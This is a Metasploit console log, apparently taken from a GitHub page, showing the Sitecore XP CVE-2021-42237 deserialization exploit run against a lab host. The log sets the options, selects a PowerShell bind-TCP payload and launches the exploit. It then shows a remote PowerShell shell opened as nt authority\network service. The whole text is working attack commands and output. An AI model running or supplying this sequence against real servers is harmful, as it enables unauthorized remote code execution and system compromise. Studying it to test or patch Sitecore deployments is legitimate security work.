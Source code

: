```
[*] 172.20.211.198:80 - The target appears to be vulnerable. Response.ashx is accessible and appears to be deserializing data!
msf6 exploit(windows/http/sitecore_xp_cve_2021_42237) > set LPORT 8342
LPORT => 8342
msf6 exploit(windows/http/sitecore_xp_cve_2021_42237) > set TARGET 0
TARGET => 0
msf6 exploit(windows/http/sitecore_xp_cve_2021_42237) > show options

Module options (exploit/windows/http/sitecore_xp_cve_2021_42237):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:hos
                                         t:port][...]
   RHOSTS     172.20.211.198   yes       The target host(s), see https://github.com/rapid
                                         7/metasploit-framework/wiki/Using-Metasploit
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on
                                         . This must be an address on the local machine o
                                         r 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is ran
                                         domly generated)
   TARGETURI  /                yes       Base path of Sitecore
   URIPATH                     no        The URI to use for this exploit (default is rand
                                         om)
   VHOST      NewInstance1     no        HTTP server virtual host


Payload options (cmd/windows/powershell_bind_tcp):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   LOAD_MODULES                   no        A list of powershell modules separated by a c
                                            omma to download over the web
   LPORT         8342             yes       The listen port
   RHOST         172.20.211.198   no        The target address


Exploit target:

   Id  Name
   --  ----
   0   Windows Command


msf6 exploit(windows/http/sitecore_xp_cve_2021_42237) > exploit

[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Response.ashx is accessible and appears to be deserializing data!
[*] Executing command payload
[*] Started bind TCP handler against 172.20.211.198:8342
[*] Powershell session session 2 opened (172.20.223.94:37301 -> 172.20.211.198:8342 ) at 2021-11-10 15:37:10 -0600

Windows PowerShell running as user WIN-86UKQGF31O1$ on WIN-86UKQGF31O1
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\windows\system32\inetsrv>PS C:\windows\system32\inetsrv>
PS C:\windows\system32\inetsrv> whoami
nt authority\network service
```